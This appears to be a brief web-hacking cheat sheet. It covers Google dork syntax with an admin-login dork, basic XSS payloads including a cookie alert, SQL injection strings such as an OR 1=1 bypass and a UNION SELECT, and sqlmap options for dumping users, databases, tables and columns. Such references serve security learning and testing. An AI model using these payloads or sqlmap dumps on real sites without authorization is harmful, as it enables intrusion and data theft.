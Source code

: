 [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

| Syntax     | Meaning |
| ---------- | ------- |
| site:      | include only given hostname |
| intitle:   | filters according to title of page |
| inurl:     | filters according to URL |
| filetype:  | filters according to file extension |
| AND, OR, & |  logical operators |
| -          | filter out a keyword or a command result |

```
inurl: admin intitle: login
```

### Cross Site Scripting (XSS)

```
<h1>Hi</h1>
```

```
<script>alert('XSS');</script>
```

```
<script>alert(document.cookie);</script>
```

### SQL Injection

```
' or 1=1; -- -
```

```
' UNION SELECT 'els1','els2','els3'; -- -
```

### sqlmap

```
sqlmap -u '<target>' -p <parameter> --technique=B
```
- -u : link
- -p : parameter
- --technique= : technique used
- - B : Bolean
- - U : UNION 
- --users : grab users
- --dbs : show all db
- -D : select db
- --tables : show all table
- -T : select table
- --columns : show all column
- -C : select column
